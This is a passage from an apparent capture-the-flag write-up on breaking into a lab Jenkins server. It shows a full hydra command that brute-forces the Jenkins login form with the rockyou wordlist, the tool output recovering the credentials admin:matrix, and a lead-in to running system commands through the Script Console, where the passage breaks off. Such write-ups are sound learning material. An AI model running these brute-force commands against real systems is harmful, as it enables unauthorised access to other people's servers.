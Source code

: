 I [found](https://www.shellhacks.com/jenkins-default-password-username/) that the default jenkins username is `admin`, and after trying default easy passwords 
unsuccessfully I moved on and try to bruteforce the login page with `hydra`.

# [](#header-1)Login bruteforcing.

First I intercepted the login request with BurpSuite to find the parameters being sent:

![](assets/burp_login.png)

Then, the final hydra command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid" -V -I -F
```

After a while it discovers the password:

```bash
...
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "gloria" - 649 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "tyler" - 650 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "aaron" - 651 of 14344399 [child 0] (0/0)
[30609][http-post-form] host: 10.150.150.38   login: admin   password: matrix
[STATUS] attack finished for 10.150.150.38 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-08 20:30:18
```

The creds are `admin` : `matrix`

# [](#header-1)Jenkins code execution.

In the Script Console we can execute java code, and we can use it to execute system commands:
